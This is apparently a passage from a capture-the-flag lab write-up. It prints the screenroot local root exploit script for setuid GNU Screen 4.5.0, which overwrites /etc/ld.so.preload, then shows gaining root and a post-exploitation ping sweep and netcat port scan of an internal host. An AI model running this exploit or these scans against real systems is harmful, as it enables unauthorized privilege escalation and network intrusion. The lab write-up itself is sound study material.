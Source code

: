 Delete all EOF cat.

``` bash
┌──(Hades㉿192.168.56.110)-[1.4:24.1]~
└─$ cat 41154.sh 
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

> I'M ROOT

``` bash
bash 41154.sh 2> /dev/null
```

![](images/9.png)

## Post Exploitation

``` bash
root@straylight:/root# bash pingSweeping.sh 
192.168.107.2
192.168.107.1
192.168.107.101
192.168.107.102
```

``` bash
root@straylight:/root# ip=192.168.107.102
root@straylight:/root# nc -nv -w 1 -z $ip 1-65535
(UNKNOWN) [192.168.107.102] 34483 (?) open
(UNKNOWN) [192.168.107.102] 8080 (http-alt) open
(UNKNOWN) [192.168.107.102] 8009 (?) open
root@straylight:/root#
```